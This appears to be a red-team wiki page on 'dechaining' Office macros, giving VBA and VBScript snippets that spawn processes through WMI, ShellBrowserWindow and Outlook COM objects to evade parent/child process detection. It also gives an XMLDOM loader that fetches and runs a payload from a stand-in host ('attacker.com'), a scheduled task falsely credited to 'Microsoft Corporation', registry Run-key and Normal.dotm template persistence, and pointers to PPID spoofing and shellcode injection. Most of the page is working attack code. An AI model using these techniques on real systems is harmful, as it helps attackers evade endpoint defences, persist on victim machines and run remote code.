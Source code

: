 # ⭕ Dechaining Macros

Looking at the Parent/Child processes is a good indicator of malicious activity, for example MSWord spawning PowerShell is pretty suspicious. Here, we will show some techniques that can be used to evade these types of analysis.

## <mark style="color:red;">WMI</mark> <a href="#wmi" id="wmi"></a>

```
Sub MyMacro()
    Arg = "cmd /k calc.exe"
    GetObject("winmgmts:").Get("Win32_Process").Create Arg, Null, Null, pid
End Sub
```

```
// Some codeSet objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("cmd.exe /k calc.exe", Null, objConfig, intProcessID)
```

This will make your process be spawned under "wmiprvse.exe."

## <mark style="color:red;">ShellBrowserWindow</mark> <a href="#shellbrowserwindow" id="shellbrowserwindow"></a>

```
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```

This will make your process spawn from under "explorer.exe"

## <mark style="color:red;">XMLDOM</mark> <a href="#xmldom" id="xmldom"></a>

```
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load(“http://attacker.com/payload.xsl”)
xml.transformNode xsl
```

## <mark style="color:red;">Scheduled Tasks</mark> <a href="#3e76" id="3e76"></a>

```
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Microsoft Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\notepad.exe"
Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)
```

## <mark style="color:red;">Registry Keys</mark> <a href="#registry-keys" id="registry-keys"></a>

We can modify the registry which can serve as persistence and a way of executing your code.&#x20;

#### WMI:

```
Set objRegistry = GetObject("winmgmts:\\.\root\default:StdRegProv")
objRegistry.SetStringValue &H80000001, "Software\Microsoft\Windows\CurrentVersion\Run", "key1", "value1"
```

#### Wscript:

```
Set WshShell = CreateObject("WScript.Shell")
WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\key2", "value2", "REG_SZ
```

## <mark style="color:red;">PPID Spoofing & Command Line Spoofing</mark>&#x20;

Basically we can spoof the parent by passing an arbitrary parent process name you want to use with the CreateProcessA function. We can also spoof the command line arguments by modifying the “CommandLine” in the RTL\_USER\_PROCESS\_PARAMETERS structure in the PEB.

&#x20;The implementation in VBA is here:

{% embed url="https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba" %}

## <mark style="color:red;">Injecting Shellcode</mark> <a href="#injecting-shellcode" id="injecting-shellcode"></a>

Injecting our shellcode to a remote process can make our payload live in another process, although this is not a parent-child evasion technique, we can make our payload live in a remote process.

#### see [injectors/runners](runners-injectors.md) section.

## <mark style="color:red;">Template persistence</mark>

```
Set objShell = CreateObject("Wscript.Shell")
appDataLocation = objShell.ExpandEnvironmentStrings("%APPDATA%")
Path = appDataLocation & "\Microsoft\Templates"
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\Normal.dotm", True)
objFile.Write payload
objFile.Close
```

## <mark style="color:red;">Outlook</mark> <a href="#outlook" id="outlook"></a>

```
Set obj = GetObject("new:0006F03A-0000-0000-C000-000000000046")
obj.CreateObject("WScript.Shell").Run ("calc.exe")
```
